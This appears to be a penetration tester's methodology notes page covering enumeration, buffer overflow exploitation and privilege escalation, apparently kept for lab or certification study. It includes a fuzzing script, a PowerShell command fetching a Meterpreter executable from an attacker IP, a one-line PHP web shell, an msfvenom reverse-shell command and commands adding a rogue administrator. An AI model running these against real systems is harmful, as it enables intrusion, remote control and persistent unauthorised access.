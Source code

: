 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:  
	- arp-scan --localnet  
    - ping sweep - using nmap -sn > insert subnet here  
    - passive listening using Wireshark/tcpdump  

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow:  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell***  
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

php system ($_GET[“cmd”]);



__BufferOverflow:__  

Some services will accept user input, but are not configured correct, in that they do not filter or allocate the correct input exactly so that sending more input than what the program is expecting will overwrite the programs execution flow and it will crash. If this is the case, sometimes a script can be created that controls this overflow behavior and instead of crashing the program, instructs it to do whatever the attacker wants (usually establishing a reverse shell or executing other malicious programs).  Below is a very short list of steps to BoF:  

__BoF Phase1:__  
1. Use a "fuzzing" script to detemrmine if the program is susceptible to crashing at a determined input amount. Use a debugger to ensure that the EIP register is overwritten with "A's".  
2. Create a unique pattern (MetaSploit's pattern_create can be used) based on the amount of data that previously crashed. Send the pattern to the program via modified script and copy the pattern that appears in the EIP.  
3. Use MetaSploit's pattern_offset tool to determine where in the unique value the EIP previously obtained, is included (what bit value, or point in the whole pattern was this bit that fit into the EIP is at).  
4. Modify script to include the crashing byte amount and the offset (set a different value for this, only 4 "B's" or \x42). Include trailing "C's" or \x43 for padding. This will be a placeholder for shellcode.  

__BoF Phase2:__  
5. Find bad characters that the program will not accept. If using Immunity debugger, the Mona module is good for this.  
6. Use this information to perform wider search for memory locations to pivot to with "JMP ESP" instruction set. This can be done via Mona using "!mona jmp -r esp -cpb "badCharacters". Focus on modules with no DEP or ASLR protections.  
7. Remember that the value found here must be placed into script used in Little-Endian format (backwards), or using a module that does this conversion for you.  

__BoF Phase3:__  
8. Shellcode generation. Sample shellcode using MSFVenom is as follows:  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b “\x00\x0a” EXITFUNC=THREAD -f python  
Do not forget to include the bad characters you have found via the -b option.  
9. When testing the final script NOPs (\x90) may need to be added for additional padding.  
10. Test offline and not against target before the actual attack target.  

__Exploitation:__  
After gathering substantial amount of information about targets, and finding no other footholds a search for public exploitation is in order. This can be done via simple Google search or sites like [Exploit-DB](https://www.exploit-db.com/). The exploits found need to be looked at carefully. Versioning is very important. Bitness is very important for compiling and of course, looking over the code to ensure no addtional side exploitation of the attacking matchine is hidden is important too.  

__Compiling:__  
The following is a few commands used for compiling C:

gcc inputFile.c -l outputFile - Generic Linux compile.
i686-w64-ming32-gcc inputFile.c -lws2_32 -o outputFile.exe - Linux compile for Windows executable.  

__PrivEsc:__  
Inroads. Here are some quick and common enumeration steps once low privilege is obtained:

Linux:  
find / -perm -u=s -type f 2>/dev/null  - SUID search  
ls -al /etc/passwd - Can you write to the passwd file?  
ls -al /etc/*cron* - Check out all the crons
sudo -l - Can this user do anything as root?  
ps aux | grep root - What is running as root (or insert other user)?  

Windows:  
whoami /priv  
cmdkey /list  
accesschk.exe -accepteula -qwsu "Everyone" *  - Checks for writable files and folders  
accesschk.exe -uwcqv "Everyone" * - Checks for weak service permissions  
wmic service list brief - Service list  
net start  
sc query  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """ - Searches for unquoted service paths  
Net user newuser newpass /add - Adds user  
Net localgroup Administrators newuser /add - Adds user to group




